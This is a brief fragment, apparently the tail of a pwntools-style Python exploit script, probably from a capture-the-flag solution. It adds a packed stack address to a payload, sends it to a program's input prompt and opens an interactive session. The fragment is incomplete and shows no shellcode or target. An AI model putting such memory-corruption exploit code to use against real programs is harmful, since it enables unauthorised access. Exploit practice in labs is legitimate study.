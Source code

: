 ```python
    payload += p32(stack_base)

    p.sendlineafter("input:",payload)
    p.interactive()
```
